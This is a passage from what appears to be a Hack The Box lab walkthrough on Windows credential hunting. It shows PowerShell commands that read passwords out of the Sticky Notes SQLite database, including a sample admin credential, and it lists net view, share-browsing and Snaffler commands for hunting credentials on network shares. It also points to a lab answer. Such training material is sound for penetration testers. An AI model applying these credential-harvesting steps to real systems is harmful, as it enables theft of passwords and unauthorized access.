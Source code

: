 #### 4. Import PSSQLite Module
```powershell
# Import the PSSQLite module
Import-Module .\PSSQLite.psd1

# Expected security warning:
Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning message. Do you want to run C:\Tools\PSSQLite\PSSQLite.psm1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): R

# Response: R (Run once)
```

#### 5. Query StickyNotes Database
```powershell
# Set database path
$db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'

# Query the Notes table
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap

# Expected output:
Text
----
\id=de368df0-6939-4579-8d38-0fda521c9bc4 vCenter
\id=e4adae4c-a40b-48b4-93a5-900247852f96
\id=1a44a631-6fff-4961-a4df-27898e9e1e65 root:Vc3nt3R_adm1n!
\id=c450fc5f-dc51-4412-b4ac-321fd41c522a Thycotic demo tomorrow at 10am
\id=e30f6663-29fa-465e-895c-b031e061a26a Network
\id=c73f29c3-64f8-4cfc-9421-f65c34b4c00e [bob_adm password should be here]
```

#### 6. Extract bob_adm Password
```powershell
# Look for bob_adm credentials in the query results
# Password should be visible in one of the Note entries
# Submit the found password as the answer
```

## 🌐 Network Share Drive Hunting

### Share Enumeration
```cmd
# Common network share credential hunting:
net view \\<server>
dir \\<server>\users\*
dir \\<server>\shared\*

# Tools for automated share hunting:
Snaffler.exe -s <domain-controller> -d <domain>
```
